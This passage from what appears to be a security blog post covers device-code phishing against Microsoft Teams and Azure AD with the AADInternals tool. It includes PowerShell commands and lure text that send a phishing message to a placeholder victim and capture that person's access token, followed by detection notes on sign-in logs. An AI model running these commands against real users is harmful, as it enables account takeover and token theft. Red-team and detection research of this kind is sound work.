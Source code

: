```
'<div>Hi!<br/>This is a message sent to you by someone who is using <a href="https://o365blog.com/aadinternals">AADInternals</a> phishing function. <br/>If you are seeing this, <b>someone has stolen your identity!</b>.</div>'
```

![Teams clean message](https://o365blog.com/images/posts/phishing\_13.png)

The following example sends a phishing email using customised messages. The tokens are saved to the cache.

```powershell
# Get access token for Azure Core Management

Get-AADIntAccessTokenForAzureCoreManagement -SaveToCache

# Create the custom messages

$message = '<html>Hi!<br/>Here is the link to the <a href="{1}">document</a>. Use the following code to access: <b>{0}</b>.</html>'
$cleanMessage = '<html>Hi!<br/>Have a nice weekend.</html>'

# Send a teams message to the recipient using customised messages

Invoke-AADPhishing -Recipients "wvictim@company.com" -Teams -Message $message -CleanMessage $cleanMessage -SaveToCache
```

```
Code: CKDZ2BURF
Teams message sent to: wvictim@company.com. Message id: 132473151989090816
...
Received access token for william.victim@company.com
```

**The following video shows how to use AADInternals for Teams phishing.**

## Detecting <a href="#detecting" id="detecting"></a>

First of all, from the Azure AD point-of-view the login takes place where the authentication was **initiated**. This is a very important point to understand. This means that in the signing log, the login was performed from the **attacker location and device**, not from user’s.

However, the access tokens acquired using the refresh token **do not appear in signing log!**

Below is an example where I initiated the phishing from an Azure VM (well, from the [cloud shell](https://o365blog.com/post/cloudshell/) to be more specific). As we can see, the login using the “Microsoft Office” client took place at 7:23 AM from the ip-address 51.144.240.233. However, getting the access token for Exchange Online at 7:27 AM is not shown in the log.

![Azure AD signing log](https://o365blog.com/images/posts/phishing\_10.png)

:warning: If there are indications that the user is signing in from non-typical locations, the user account might be compromised.
